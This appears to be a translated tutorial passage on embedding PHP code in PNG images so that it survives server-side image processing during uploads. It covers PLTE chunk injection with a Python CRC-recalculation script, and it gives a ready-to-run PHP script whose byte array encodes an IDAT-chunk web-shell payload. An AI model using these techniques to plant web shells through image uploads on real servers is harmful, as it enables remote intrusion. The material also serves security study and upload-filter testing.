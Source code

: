 When the php bottom layer verifies the PLTE data block, it mainly performs CRC verification. Therefore, you can insert the php code in the chunk data field, and then recalculate the corresponding crc value and modify it.

This method is only valid for the png image of the indexed color image. When selecting the png image, you can distinguish .03 as an indexed color image according to the color type of the IHDR data block.

Write php code in PLTE data block



Script to calculate CRC of PLTE data block

import binascii
import re

png = open(r'2.png','rb')
a = png. read()
png. close()
hexstr = binascii.b2a_hex(a)

'''PLTE crc'''
data = '504c5445'+ re.findall('504c5445(.*?)49444154',hexstr)[0]
crc = binascii.crc32(data[:-16].decode('hex')) & 0xffffffff
print hex(crc)
Running result 526579b0

Modify CRC value



Write IDAT data block

Here are scripts written by foreign big cows, which can be used directly to run.

<?php
$p = array(0xa3, 0x9f, 0x67, 0xf7, 0x0e, 0x93, 0x1b, 0x23,
         0xbe, 0x2c, 0x8a, 0xd0, 0x80, 0xf9, 0xe1, 0xae,
         0x22, 0xf6, 0xd9, 0x43, 0x5d, 0xfb, 0xae, 0xcc,
         0x5a, 0x01, 0xdc, 0x5a, 0x01, 0xdc, 0xa3, 0x9f,
         0x67, 0xa5, 0xbe, 0x5f, 0x76, 0x74, 0x5a, 0x4c,
         0xa1, 0x3f, 0x7a, 0xbf, 0x30, 0x6b, 0x88, 0x2d,
         0x60, 0x65, 0x7d, 0x52, 0x9d, 0xad, 0x88, 0xa1,
         0x66, 0x44, 0x50, 0x33);



$img = imagecreatetruecolor(32, 32);

for ($y = 0; $y < sizeof($p); $y += 3) {
$r = $p[$y];
$g = $p[$y+1];
$b = $p[$y+2];
$color = imagecolorallocate($img, $r, $g, $b);
imagesetpixel($img, round($y / 3), 0, $color);
}

imagepng($img,'./1.png');
?>
Get 1.png after running
